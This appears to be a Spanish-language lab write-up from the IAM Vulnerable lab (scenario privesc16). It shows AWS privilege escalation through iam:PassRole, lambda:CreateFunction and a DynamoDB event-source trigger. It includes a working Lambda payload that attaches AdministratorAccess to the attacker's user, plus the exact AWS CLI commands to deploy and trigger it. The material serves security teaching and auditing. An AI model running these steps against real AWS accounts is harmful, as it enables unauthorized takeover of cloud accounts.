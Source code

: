 ```yaml
---
description: 'Lab: IAM vulnerable'
---
```


# PassRoleToNewLambdaThenTrigger

## Laboratorio

En este apartado se observará el ejemplo utilizando el laboratorio IAM vulnerable con el escenario privesc16. En este caso de explotación, el usuario de pruebas no tiene los permisos de invocar funciones lamba, solo mapear triggers a otro evento, en este caso a DynamoDB, por lo cual requiere que otro usuario actualice o que la base de datos se actualice para que funciones este caso de explotación.

{% embed url="https://bishopfox.com/blog/privilege-escalation-in-aws" %}
Lab: IAM - Vulnerable | Escenario: privesc16
{% endembed %}

Un atacante con los permisos <mark style="color:green;">**iam:PassRole**</mark> , <mark style="color:green;">**lambda:CreateFunction**</mark> y <mark style="color:green;">**lambda:CreateEventSourceMapping**</mark> (y posiblemente dynamodb:PutItem y dynamodb:CreateTable), pero ~~sin el permiso _lambda:InvokeFunction_~~, puede escalar privilegios creando una nueva función de Lambda y conectándola a una tabla de DynamoDB. Posteriormente, cuando se inserta una nueva fila en la tabla, la función Lambda ejecuta un código que aumenta los privilegios del usuario.

### Configuración Inicial

Usuario del laboratorio: privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user con las políticas:

<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

La cuenta de AWS debe contener un rol existente que incluya los permisos:

* iam:AttachUserPolicy
* dynamodb:GetRecords&#x20;
* dynamodb:GetShardIterator
* dynamodb:DescribeStream
* dynamodb:ListStreams

y las funciones de Lambda deben tener permitido asumir este rol.&#x20;

La cuenta de AWS también necesita tener una tabla DynamoDB habilitada para transmisión.&#x20;

Alternativamente, si no existe una tabla DynamoDB, este método de escalada de privilegios aún puede funcionar si el atacante tiene el permiso dynamodb:CreateTable.

Posterior mente generar llaves e acceso desde cuenta administrador para interactuar con el usuario en AWS CLI y configurar un perfil para el usuario privesc16-PassRoleToNewLambdaThenTriggerWithNewDynamo-user

{% hint style="info" %}
Al momento de configurar el perfil, se tiene que tomar en cuenta la región, que sea la misma donde se encuentra la Base Dynamodb,
{% endhint %}

### Explotación

En este escenario, se tiene que aprovechar del privilegio de <mark style="color:green;">lambda:CreateFunction</mark> para crear una función de lambda maliciosa que tendrá el código para adjuntar una política de altos privilegios a nuestro usuario inicial.

La función lambda en Python es la siguiente:

{% code title="code.py" overflow="wrap" %}
```python
import boto3
def lambda_handler(event, context):
	client = boto3.client('iam')
	response = client.attach_user_policy(UserName='privesc16- PassRoleToNewLambdaThenTriggerWithNewDynamo-user',
	PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess')
	return response
```
{% endcode %}

Para subir el archivo con el permiso <mark style="color:green;">**lambda:Createfunction**</mark> es necesario comprimir el archivo en formato zip con el nombre <mark style="color:green;">**function.zip**</mark>, después ejecutar el siguiente comando:

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong>aws lambda create-function --function-name privesc --runtime python3.6 --role arn:aws:iam::037572360634:role/privesc-high-role-Lambda --handler code.lambda_handler --zip-file fileb://function.zip --region us-east-1 --profile privesc16
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Ahora que hemos creado nuestra función maliciosa vamos aprovechar nuestro otro privilegio de <mark style="color:green;">lambda:CreateEventSourceMapping</mark> para vincular nuestra función a cualquier evento que ocurra sobre una DynamoDB. En otras palabras, es necesario que en el ambiente que estemos auditando exista una tabla de DynamoDB.

<pre data-overflow="wrap"><code><strong>aws lambda create-event-source-mapping --function-name privesc --event-source-arn arn:aws:dynamodb:us-east-1:037572360634:table/Vulnerable/stream/2022-0608T00:18:02.839 --enabled --starting-position LATEST --region us-east-1 --profile privesc16
</strong></code></pre>

Dado que el usuario actual no tiene ningún permiso de DynamoDB, no es posible cargar una nueva fila y desencadenar el exploit. En su lugar, el atacante debe esperar a que otro usuario o un servicio actualice la tabla.

#### Uso de usuario alterno

Cuando otro usuario cambie, actualice o elimine datos de la base de DynamoDB, se ejecutará el trigger del lambda, a continuación se ejecutara un comando que actualiza la tabla simulando ser otro usuario AWS

```
aws dynamodb put-item --table-name privesc16 --item ‘{“test”:{“S”:”whatever”}}’
--region us-west-2
```

La acción en la tabla de DynamoDB hizo que se ejecutara la función Lambda vinculada, lo que aumentó los permisos del atacante: este método de escalada de privilegios es más fácil si el atacante también tiene los permisos <mark style="color:green;">dynamodb:CreateTable</mark> y <mark style="color:green;">dynamodb:PutItem</mark>, porque entonces el atacante puede crear una tabla de DynamoDB adecuada y cargar un elemento para activar el exploit.

<figure><img src="../../../.gitbook/assets/image (8).png" alt=""><figcaption><p>Elevación de privilegios exitosa</p></figcaption></figure>

